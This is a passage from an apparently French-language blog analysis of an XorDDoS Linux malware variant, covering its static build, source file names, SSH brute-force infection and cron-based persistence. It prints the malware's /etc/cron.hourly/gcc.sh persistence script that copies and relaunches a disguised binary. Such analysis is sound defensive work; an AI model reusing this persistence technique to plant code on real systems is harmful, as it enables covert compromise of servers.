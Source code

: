 Après plusieurs recherches on peut observer que ce malware est en fait une version d'un logiciel malveillant très connu découvert en 2014 par le groupe de recherche `MalwareMustDie`. Ce malware a même fait l'objet d'[un article de Microsoft](https://www.microsoft.com/security/blog/2022/05/19/rise-in-xorddos-a-deeper-look-at-the-stealthy-ddos-malware-targeting-linux-devices/), néanmoins, le virus analysé par la société éditrice de Windows n'est pas la même version que celle que nous analysons dans cet article.

On peut aussi remarquer que le binaire a été compilé de manière statique, c'est-à-dire en incluant toutes les librairies dont il dépend, par GCC 4.1.2 sur une machine Red Hat. La structure des fichiers sources du binaire est :

```
- autorun.c
- crc32.c
- encrypt.c
- execpacket.c
- buildnet.c
- hide.c
- http.c
- kill.c
- main.c
- proc.c
- socket.c
- tcp.c
- thread.c
- findip.c
- dns.c

```

Avec cette seule information, on peut déjà observer certains fichiers intéressants, comme `encrypt.c` ou `hide.c` .

# 🦠 L'infection

Le principal vecteur d'infection utilisé par ce malware est le [bruteforce](https://fr.wikipedia.org/wiki/Attaque_par_force_brute) de serveur SSH, d'où l'importance d'utiliser de privilégié des clés cryptographiques, avec des algorithmes modernes (comme [EdDSA](https://fr.wikipedia.org/wiki/EdDSA)), au lieu du traditionnel mot de passe.

Lors de la première infection, le malware va faire en sorte d'assurer sa persistance, pour ce faire, il va en premier lieu créer le fichier `/etc/cron.hourly/gcc.sh`, celui-ci contient un script qui va simplement démarrer toutes les interfaces réseau, se copier dans un autre endroit et se lancer. Le fait que ce script soit présent dans le dossier `/etc/cron.hourly` à son importance, les scripts présents dans ce dossier sont lancé automatiquement par le système toutes les heures.

```
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/
for i in `cat /proc/net/dev|grep :|awk -F: {'print $1'}`;
  do ifconfig $i up
done # Démarre toutes les interfaces réseau
cp /lib/libudev.so /lib/libudev.so.6
/lib/libudev.so.6
```
